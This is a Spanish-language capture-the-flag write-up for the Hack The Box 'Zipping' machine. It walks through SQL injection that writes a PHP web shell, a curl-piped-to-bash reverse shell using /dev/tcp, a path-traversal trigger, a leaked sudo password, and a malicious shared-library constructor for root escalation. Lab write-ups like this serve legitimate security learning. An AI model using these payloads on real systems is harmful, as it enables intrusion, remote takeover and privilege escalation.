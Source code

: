 ```yaml
---
layout: single
title: HTB Zipping writeup
date: 2023-11-08
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen</h1><br>
<div style="text-align: justify;">
Tengo constancia de que antes esta máquina se resolvía por otro método más interesante. Este trataba de generar un .pdf malicioso que fuera leído por la aplicación web como un pdf, pero como un php por el servidor. Hack The Box la actualizó y, hasta ahora, no he sabido replicar esa vulnerabilidad. 

Aquí muestro la solución a noviembre de 2023:
</div>
<br><br>


# Reconocimiento 

Aplicamos un escaneo de puertos y servicios a la máquina víctima:

```shell
nmap -sV 10.10.11.229 -n -oN scan.txt -T5 -vvv
```

![](/assets/images/HTB-writeup-zipping/Pasted image 20231108144349.png)

Tenemos un servidor http en el puerto 80. 

## Web

Tras revisar la web en profundidad, encontramos que funciona con .php: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108144743.png)



# Penetración

## User

Introduciendo la petición del link anterior en el Repeater de BP podemos testar si podemos realizar SQLInjection a través de la aplicación PHP. 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108151829.png)

Éxito. La aplicación acoge peticiones cuando las comenzamos con un salto de línea (`%0A`). 

Ahora vamos a generar una Reverse Shell que subiremos con una petición curl al servidor, para después ejecutarla y tomar acceso. 

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
#Aquí debemos poner nuestra IP y el puerto que más tarde abriremos con netcat. y guardarlo como 'shell.sh'
```

Abrimos un puerto 80 en la carpeta donde se encuentra la shell. 

```shell
python3 -m http.server 80
```

En otra consola, abrimos el puerto: 

```shell
nc -nlvp <port>
```

Ahora, vamos a hacer las peticiones directamente desde consola, porque así nos ahorramos el paso de urlear el comando: 

```shell
curl $'http://zipping.htb/shop/index.php?page=product&id=%0A\'%3bselect+\'<%3fphp+system(\"curl+http%3a//<tu-ip>/rev.sh|bash\")%3b%3f>\'+into+outfile+\'/var/lib/mysql/shell.php\'+%231'

curl -s $'http://zipping.htb/shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2fshell' 
```

Una vez ejecutadas ambas peticiones, en la consola del netcat debería aparecernos el acceso: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108152810.png)

### Conseguir una shell funcional

Como siempre en estos casos, vamos a obtener una shell 100% funcional: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

Encontraremos la `user.txt`en la carpeta home del usuario, que aunque no esté definida en las variables de entorno, es accesible:
`/home/rektsu/user.txt`.



## Escalada de Privilegios

Revisamos si tenemos algún permiso de ejecución como sudo: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108153443.png)

Vamos a ver de qué trata el script `stock` con el siguiente comando: 

```shell
strings $(which stock)
```

Revisando el output, encontramos una credencial:


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108154111.png)

`St0ckM4nager`


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108154215.png)

Ejecutando `strace stock` e introduciendo la contraseña encontrada nos da la siguiente información: 


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108155849.png)

Es decir, el programa está llamando a un archivo llamado `/home/rektsu/.config/libcounter.so`  que no existe. Si este programa se ejecuta con permisos sudo, podemos crear ese archivo para que desde él nos lleve al usuario root. 

Vamos al directorio `/home/rektsu/.config/`

Y creamos un archivo `libcounter.c`con el siguiente contenido:

```c
#include <stdio.h>
#include <stdlib.h>

void escalation_func() {
	system("/bin/bash");
}

__attribute__((constructor))
void setup() {
	escalation_func();
}
```

Ahora lo compilamos como una librería, tal como el stock nos pedía más arriba: 

```shell
gcc -shared -o libcounter.so -fPIC libcounter.c
```

Tras esto, volvemos a ejecutar el script stock: 

```shell
sudo stock
St0ckM4nager
```


![](/assets/images/HTB-writeup-zipping/Pasted image 20231108160859.png)

